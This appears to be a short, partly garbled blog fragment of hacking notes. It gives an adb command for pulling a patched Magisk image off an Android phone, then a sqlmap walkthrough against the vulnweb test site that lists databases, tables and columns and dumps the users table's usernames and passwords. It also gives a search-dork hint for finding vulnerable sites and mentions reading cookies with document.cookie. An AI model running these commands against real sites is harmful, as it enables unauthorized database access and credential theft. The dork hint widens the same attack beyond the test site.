     ./adb   pull     /sdcard/Download/magisk_patched.img       C:\platform-tools            (from android to pc)

                         <            android location   >                      <pc location>

sqlmap-

site:http://testphp.vulnweb.com/ php?= (for finding vulnerable site)

(for cookies- console->document.cookie)

    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  –dbs   (databases)
    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart –tables   (tables)
    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users –columns   (columns)
    (dump whole table)
    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users  –dump   
                                                                OR                              

(dump individual  column data)

    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users -C uname  –dump  
    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users -C pass  –dump

Thank you for reading this blog. I hope this blog finds you helpful. Visit our other blogs to know more about cyber security and the future of cyber security and how you can make your career in cyber security.
